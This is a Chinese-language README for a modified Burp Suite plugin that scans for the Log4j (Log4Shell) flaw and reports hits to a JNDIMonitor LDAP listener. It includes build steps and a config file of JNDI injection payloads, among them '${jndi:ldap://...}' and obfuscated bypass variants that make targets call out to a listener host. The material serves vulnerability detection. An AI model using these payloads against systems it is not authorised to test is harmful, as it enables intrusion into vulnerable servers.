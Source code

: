 # log4jScan_Modify

![](images/burp.png)

**本插件修改自：https://github.com/pmiaowu/log4j2Scan/commit/d160bf2349cb2f423300469a48de53c75a8031ec**

**根据原插件DnsLogCn模块的判定逻辑，修改为对接 [JNDIMonitor [一个LDAP请求监听器，摆脱dnslog平台]](https://github.com/r00tSe7en/JNDIMonitor) 的`api2=all`接口使用。**

插件详情及编译方法参考：https://github.com/pmiaowu/log4j2Scan

# 插件使用

## 0x01 启动JNDIMonitor监听

参考：https://github.com/r00tSe7en/JNDIMonitor

## 0x02 修改和编译log4jScan_Modify插件

1）下载 `log4jScan_Modify` 源码

2）需要修改`log4j2Scan_modify\src\main\java\burp\DnsLogModule\ExtensionMethod\LdapLogCn.java`中的`ip:port`为`JNDIMonitor`监听的`ip`和`port`

```java
    private String dnslogDomainName = "http://ip:port/?api2=all"; //JNDIMonitor监听http的api2接口
    private String temporaryDomainName = "ip:port"; //JNDIMonitor监听ldap的接口
```

3）`config.yml`默认已经配好，由于对接的是`ldap`监听器，所以已经把不相关的其他协议`payload`注释掉了，如果还有其他的`ldap bypass payload` 可以自己手动加进去。

```yaml
#- "${jndi:dns://dnslog-url/t}"
#- "%24%7Bjndi%3Adns%3A%2F%2Fdnslog-url%2Ft%7D"
- "${jndi:ldap://dnslog-url/t}"
#- "${jndi:rmi://dnslog-url/t}"
- "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://dnslog-url/t}"
#- "${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://dnslog-url/t}"
```

4）修改完成后就可以开始编译了，生成的插件文件在如下目录。

```
log4j2Scan_modify\target\log4j2Scan
 -/resources/config.yml
 -log4jScan_modify.jar
```

5）开始被动检测即可，可以看到检测日志。

![](images/burp2.png)

# 感谢

@pmiaowu

@melon

![](https://starchart.cc/r00tSe7en/log4jScan_Modify.svg)
